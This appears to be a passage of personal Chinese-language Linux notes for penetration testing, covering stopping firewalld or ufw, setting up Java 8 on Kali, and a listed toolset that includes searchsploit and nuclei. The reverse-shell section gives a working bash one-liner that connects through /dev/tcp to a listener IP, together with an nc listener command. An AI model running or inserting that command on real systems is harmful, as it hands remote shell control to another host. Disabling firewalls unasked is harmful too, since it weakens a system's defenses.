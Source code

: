 # Linux笔记

* firewalld or ufw
* bash反弹shell
* Kali下更换Java8
* 代理设置总结
* Git
* Docker
* zsh
* searchsploit
* Apache
* SSH
* ps
* redis
* Go
* f8x
* curl
* rz文件传输
* find
* nuclei
* 查看文件

### firewalld

```bash
# ubuntu
systemctl status firewalld # 查看防火墙状态
systemctl stop firewalld # 关闭防火墙

# kali
systemctl status ufw # 查看防火墙状态
systemctl stop ufw # 关闭防火墙
```

### bash反弹shell

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.188.131/6789 <&1'

nc.exe -lvnp 6789
```

### Kali下更换Java8

下载地址：https://www.oracle.com/java/technologies/javase-jdk8-downloads.html

```bash
tar zxvf jdk-8u251-linux-x64.tar.gz
mv /usr/local/java/jdk1.8.0_251/ /opt/
gedit ~/.bashrc # 添加以下四行

# install JAVA JDK
export JAVA_HOME=/opt/jdk1.8.0_251
export CLASSPATH=.:${JAVA_HOME}/lib
export PATH=${JAVA_HOME}/bin:$PATH

source ~/.bashrc
java -version
```
